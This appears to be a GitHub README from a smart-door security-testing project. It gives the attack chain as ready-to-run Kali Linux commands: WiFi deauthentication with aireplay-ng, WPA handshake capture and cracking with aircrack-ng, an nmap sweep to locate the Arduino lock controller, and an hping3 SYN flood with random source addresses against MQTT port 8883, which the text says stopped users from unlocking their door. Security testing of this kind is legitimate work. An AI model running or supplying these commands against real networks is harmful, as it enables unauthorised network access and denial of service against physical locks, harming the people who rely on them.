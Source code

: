 # Security Testing
## Accessing Network
To access the network, we would have to crack the password to enter WiFi network which is done using Kali Linux. To do so, we first need a wireless adapter which in our case is named "wlan0". We would then first stop any concurrent activity using the WiFi interface by running the following command on the terminal:
```console
kali@kali:~$ airmon-ng check kill
```
We then run the next command to enter montiring mode on the wlan0 interface.
```console
kali@kali:~$ airmon-ng start wlan0
```
After that, we would first view all the WiFi networks around us and find our target network by running the command.
```console
kali@kali:~$ airodump-ng wlan0mon
```
At this point we are able to view the different SSID, MAC address of WAP, channels, etc. Once target network is found, we will view all the connected clients by using the command:
```console
kali@kali:~$ airodump-ng -c <channel no.> --bssid <MAC Address of WAP> -w <Name of file for output> wlan0mon
```
From here, we will open up another terminal to disconnect the clients connected to the target network by running the command.
```console
kali@kali:~$ aireplay-ng -0 10 -a <MAC address of WAP> wlan0mon
```
Note:</br>-0 : For deauthentication</br>
       10 : No. of deauthentication packets to be sent</br>
      -a : For the bssid of the target network</br>

Once all clients are disconnected from the target network, we will wait for clients to join back and receive a WPA handshake from this process. After this we will crack the password using the output file we created from the command to view the connected clients to the network. We will run the command:
```console
kali@kali:~$ aircrack-ng -a2 -b <MAC Address of WAP> -w <Output file path> <File of Common Passwords>
```
Note: File of common passwords can be retrieved from crunch tools on https://www.kali.org/tools/crunch/. </br>
We then waited until the WiFi password is matched, hence, we are now able to access the network.

## Finding Target Device
After accessing the network, we will need to find the IP address fo the target device in order to perform attacks on it. To do this we will be using a network scanning tool on Kali Link called "nmap". We will run the follwing command to scan the network we are in.
```console
kali@kali:~$ sudo nmap -sn <Network_Address>
```
This will provide us with the IP address, MAC address and manufacturer name of the devices connected in the network. With that we can discover the Arduino manufactured device on the network which is our target since it will control the lock and camera of the smart door. Thus, we can perform our attack with this information.

## Attack Performed on Target Device
Conducted a denial-of-service (DOS) attack by using the "hping3" tool which allows us to send manipulated packets including size, quantity, and fragmentation of packets in order to overload the target.
</br>
</br>
Command Used:
```console
kali@kali:~$ sudo hping3 "IP ADDRESS of Target" -q -n -d 120 -S -p 8883 --flood --rand-source
```
Note: Port used is 8883 (MQTT TLS port). </br>

We were successful in disrupting the MQTT services which disallowed the users from unlocking their door. To stop the DOS attack, press Ctrl+C on keyboard.</br>
